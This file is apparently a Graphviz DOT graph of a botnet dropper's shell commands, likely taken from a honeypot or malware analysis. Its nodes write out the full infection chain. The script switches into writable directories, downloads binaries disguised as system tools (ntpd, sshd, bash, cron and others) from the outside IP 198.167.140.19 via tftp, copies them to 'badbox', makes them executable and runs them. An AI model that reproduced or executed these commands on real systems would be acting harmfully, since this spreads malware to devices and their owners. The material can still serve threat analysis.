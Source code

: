digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 14 [label="||,"];
14 [label="tftp 198.167.140.19 -c get ntpd "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 34 [label="||,"];
34 [label="tftp 198.167.140.19 -c get sshd "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 54 [label="||,"];
54 [label="tftp 198.167.140.19 -c get openssh "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 74 [label="||,"];
74 [label="tftp 198.167.140.19 -c get bash "];
74 -> 76 [label=";,"];
76 [label="cat bash badbox "];
76 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 94 [label="||,"];
94 [label="tftp 198.167.140.19 -c get tftp "];
94 -> 96 [label=";,"];
96 [label="cat tftp badbox "];
96 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 114 [label="||,"];
114 [label="tftp 198.167.140.19 -c get wget "];
114 -> 116 [label=";,"];
116 [label="cat wget badbox "];
116 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 134 [label="||,"];
134 [label="tftp 198.167.140.19 -c get cron "];
134 -> 136 [label=";,"];
136 [label="cat cron badbox "];
136 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 154 [label="||,"];
154 [label="tftp 198.167.140.19 -c get ftp "];
154 -> 156 [label=";,"];
156 [label="cat ftp badbox "];
156 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 174 [label="||,"];
174 [label="tftp 198.167.140.19 -c get pftp "];
174 -> 176 [label=";,"];
176 [label="cat pftp badbox "];
176 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 194 [label="||,"];
194 [label="tftp 198.167.140.19 -c get sh "];
194 -> 196 [label=";,"];
196 [label="cat sh badbox "];
196 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 214 [label="||,"];
214 [label="tftp 198.167.140.19 -c get   "];
214 -> 216 [label=";,"];
216 [label="cat   badbox "];
216 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 234 [label="||,"];
234 [label="tftp 198.167.140.19 -c get apache2 "];
234 -> 236 [label=";,"];
236 [label="cat apache2 badbox "];
236 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
}
